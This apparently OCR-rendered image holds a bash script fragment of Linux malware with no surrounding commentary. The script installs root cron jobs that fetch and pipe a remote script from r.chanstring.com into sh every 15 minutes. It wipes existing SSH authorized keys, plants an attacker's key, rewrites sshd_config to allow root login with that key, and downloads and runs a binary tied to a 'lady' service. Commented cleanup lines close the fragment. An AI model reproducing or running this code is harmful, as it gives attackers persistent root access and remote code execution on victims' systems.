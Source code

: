 ```bash
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start

echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start

mkdir -p /opt

# /etc/init.d/lady stop
# systemctl stop lady.service
# pkill /opt/cron
# pkill /usr/bin/cron
# rm -rf /etc/init.d/lady
# rm -rf /etc/systemd/system/lady.service
# rm -rf /opt/KHK75NEOiq33
# rm -rf /usr/bin/cron
# rm -rf /usr/bin/.cron.old
# rm -rf /usr/bin/.cron.new
```
